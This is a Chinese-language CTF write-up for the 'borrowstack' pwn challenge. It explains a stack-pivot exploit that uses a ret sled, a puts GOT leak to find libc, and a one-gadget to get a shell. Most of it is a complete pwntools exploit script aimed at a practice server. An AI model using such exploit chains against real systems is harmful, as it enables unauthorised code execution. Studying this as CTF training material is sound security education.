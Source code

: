```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- 栈迁移
- one-gadgets
- 64泄露libc

![image-20240127002802945](../assets/img/old_imgs/image-20240127002802945.png)

1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python3
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来